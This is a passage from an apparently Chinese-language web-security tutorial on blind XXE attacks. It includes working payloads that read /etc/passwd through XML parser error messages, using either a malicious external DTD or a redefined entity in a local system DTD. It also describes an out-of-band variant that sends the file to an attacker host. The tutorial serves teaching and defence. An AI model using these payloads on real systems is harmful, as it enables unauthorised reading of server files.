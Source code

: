这个 XXE Payload 声明了一个 xxe 的 XML 参数实体，然后在 DTD 中使用该实体，这将会导致 XML 解析器从攻击者主机获取外部 DTD 并内联解析，然后执行恶意 DTD 中定义的步骤，并将 /etc/passwd 文件传输给攻击者

#### 3. Bind XXE - 错误消息

> 在这种情况下，我们将使服务器加载一个恶意 DTD ，该 DTD 将在错误消息中显示文件的内容

我们可以使用恶意的外部 DTD 来触发包含 /etc/passwd 文件内容的 XML 解析错误消息：

```
<!-- malicious.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

该 DTD 实现的步骤：

* 定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件内容
* 定义一个名为 eval 的 XML 参数实体，其中包含另一个名为 error 的 XML 的参数实体的动态声明，error 实体将通过加载一个不存在的五呢关键来评估，该文件的名称包含文件实体的值
* 使用 %eval ，这将会执行 error 实体的动态声明
* 使用 error 实体，以便通过尝试加载不存在的文件来评估其值，从而导致包含不存在文件名称的错误消息，该文件是 /etc/passwd 文件内容

#### 4. Bind XXE -- 错误消息 （系统 DTD）

> 当外部交互不被允许的情况下， Bling XXE 又该如何执行呢？
>
> 在这种情况下，由于 XML 语言规范中的漏洞，仍然有可能触发包含敏感数据的错误消息。如果文档的 DTD 使用内部和外部 DTD 声明的混合，那么内部 DTD 可以重新定义在外部 DTD 中声明的实体，发生这种情况时，对在另一个参数实体的定义中使用 XML 参数实体限制就会放宽。
>
> 这意味着攻击者可以从内部 DTD 中使用基于错误的 XXE 技术，前提是他们使用的 XML 参数实体正在重新定义外部 DTD 中声明的实体，当然，如果带外连接被阻塞则无法从远程位置加载外部 DTD，相反他需要的是应用程序服务器本地的外部 DTD 文件。本质上讲，攻击设计调用碰巧存在在本地文件系统上的 DTD 文件，并将重新用于以触发解析的方式重新定义现有实体包含铭感数据的错误。
>
> 比如，假设服务器文件系统上的 /usr/local/app/schema.dtd 位置有一个 DTD 文件，这个 DTD 文件定义了一个名为 custom\_entity 的实体，攻击者可能通过提交如下所示的混合 DTD 来触发包含 /etc/passwd 文件内容的 XML 解析错误消息

```
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

这个 DTD 执行遵循以下步骤：

* 定义一个名为 local\_dtd 的 XML 参数实体，包含服务器文件系统上存在的外部 DTD 文件内容
* 重新定义名为 custom\_entity 的参数实体，该实体已在外部 DTD 文件中定义。该实体被重写定义为包含已经描述的基于错误的 XXE 攻击，用于触发包含 /etc/passwd 文件内容的错误消息
* 使用 local\_dtd 实体，以便解释外部 DTD ，包括 custom\_entity 实体重新定义值，这会产生所需的错误消息
